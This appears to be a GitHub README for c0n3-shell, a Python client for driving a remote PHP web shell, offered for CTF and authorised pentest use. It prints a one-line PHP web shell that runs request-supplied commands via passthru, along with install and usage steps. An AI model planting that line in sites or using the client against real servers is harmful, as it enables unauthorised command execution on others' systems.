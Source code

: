 # c0n3-shell - Python remote web shell client library

WIP - That project aim to provide simple to use, basic remote web shell client.


# Disclaimer

That library is provided AS-IS, and is **only** intended to be used in the context of **CTF games** and **pentests exercises** with the prior mutual and writen consent of the targeted sites.

The developpers will assume no liability and are not responsible for any misuse or damage caused by that library.

**YOU are responsible for what you do with it.**

It is the end user’s responsibility to obey all applicable local, state and federal laws.


# Usage

That library is intended to be used when you have a remote php shell accepting commands like that:
```
...
<?php passthru($_GET['cmd']); ?>
...
```

To use it:

Clone the repository, then pip install requirements and c0n3shell:

```
git clone https://github.com/lrk/c0n3-shell
cd c0n3-shell
pip install -r requirements.txt
pip install .
```

Now you can use it in your script:
```
#!/usr/bin/env python
from c0n3shell import *

shell = C0n3Shell(url='http://127.0.0.1/index.php')
shell.cmdloop()
```

or 

```
cd c0n3-shell
pip3 install -r requirements.txt
python3 -m c0n3shell -h
```

# Available options

- http_verb: the http method to use, default `get`
- url: the remote shell url
- attribute: the injectable attribute, default `cmd`
